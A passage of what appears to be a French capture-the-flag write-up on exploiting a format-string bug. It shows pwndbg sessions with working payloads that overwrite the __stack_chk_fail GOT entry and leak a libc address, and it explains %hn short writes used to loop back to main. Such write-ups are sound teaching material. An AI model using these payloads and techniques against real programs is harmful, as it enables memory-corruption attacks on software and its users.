 ```
pwndbg> start
pwndbg> got

GOT protection: Partial RELRO | GOT functions: 6
 
[0x601018] _exit@GLIBC_2.2.5 -> 0x4005f6 (_exit@plt+6) ◂— push   0 /* 'h' */
[0x601020] write@GLIBC_2.2.5 -> 0x400606 (write@plt+6) ◂— push   1
[0x601028] __stack_chk_fail@GLIBC_2.4 -> 0x400616 (__stack_chk_fail@plt+6) ◂— push   2
[0x601030] setbuf@GLIBC_2.2.5 -> 0x400626 (setbuf@plt+6) ◂— push   3
[0x601038] printf@GLIBC_2.2.5 -> 0x400636 (printf@plt+6) ◂— push   4
[0x601040] read@GLIBC_2.2.5 -> 0x400646 (read@plt+6) ◂— push   5

pwndbg> b* 0x004007e1
pwndbg> r < <(python -c 'print "AAAAAAAA%8$n\x00BBB(\x10`\x00\x00\x00\x00\x00"')
What is your name: Hello AAAAAAAA
Breakpoint 2, 0x00000000004007e1 in ?? ()

pwndbg> got

GOT protection: Partial RELRO | GOT functions: 6
 
[0x601018] _exit@GLIBC_2.2.5 -> 0x4005f6 (_exit@plt+6) ◂— push   0 /* 'h' */
[0x601020] write@GLIBC_2.2.5 -> 0x400606 (write@plt+6) ◂— push   1
[0x601028] __stack_chk_fail@GLIBC_2.4 -> 0x8
[0x601030] setbuf@GLIBC_2.2.5 -> 0x7ffff7a6c4d0 (setbuf) ◂— mov    edx, 0x2000
[0x601038] printf@GLIBC_2.2.5 -> 0x7ffff7a48e80 (printf) ◂— sub    rsp, 0xd8
[0x601040] read@GLIBC_2.2.5 -> 0x7ffff7af4070 (read) ◂— lea    rax, [rip + 0x2e0881]
```

Ici nous avons réécris l'entré de `__stack_chk_fail` avec 8 via la format string.

Cependant pour pouvoir boucler sur le main, nous devons remplacer cette entré par `0x00400737`, ce qui signifierai écrire 4 196 151 caractères, ce qui serait LOOOOOOOONNNNNNNGGGGGGGG! (et de plus notre buffer ne fait que 264 caractères).

Nous devons alors tiré avantage du modificateur de padding de printf, c'est à dire que si nous envoyons : `%020x` à printf il nous affichera : `00000000000000000001`.

Et du modificateur de longeur `hn` qui permet de n'écrire que un short (2 bytes).

De ce fait pour écrire `0x400737` à l'adresse `0x601028`, nous ferons deux écriture:
1. d'abord `0x40` à `0x60102A`
2. ensuite `0x737` à l'adresse `0x601028`

De plus nous devons lire une entré de la GOT pour récupérer une adresse de la libc et calculer son de base.

Pour ca, il suffit de faire un `%n$s\x00AAA<addr printf>` et de lire la sortie:

```
pwndbg> r < <(python -c 'print "%7$s\x00AAA8\x10`\x00\x00\x00\x00\x00"')
What is your name: Hello �����
```

Donc pour le moment, nous avons l'exploit suivant, qui nous donne l'adresse de base de la libc, et fais boucler le programme sur le main.
